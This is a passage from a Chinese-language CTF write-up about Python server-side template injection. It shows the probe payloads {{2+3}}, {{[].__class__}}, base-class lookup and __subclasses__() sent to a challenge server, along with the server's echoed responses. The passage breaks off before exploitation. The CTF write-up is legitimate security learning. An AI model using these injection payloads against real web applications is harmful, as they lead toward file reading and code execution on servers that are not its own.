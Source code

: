 open()函数

	open('text.txt').read()


codecs模块

```
import codecs
codecs.open('test.txt').read()

```

转载完了，开始做题吧。

## 开始操作

根据提示内容，是python模板注入。

#### 判断注入

尝试{{2+3}}看看{{}}内的代码是否被执行

![UgqOsO.png](https://s1.ax1x.com/2020/07/18/UgqOsO.png)

由上图可知代码被执行确实存在模板注入。

#### 获取类对象

输入`{{[].__class__}}`

页面返回：

	URL http://220.249.52.133:44238/<type 'list'> not found

#### 寻找基类

输入`{{[].__class__.__base__}}`

页面回显：

	URL http://220.249.52.133:44238/<type 'object'> not found

#### 寻找可用引用模块

输入`{{[].__class__.__base__.__subclasses__()}}`

页面回显：
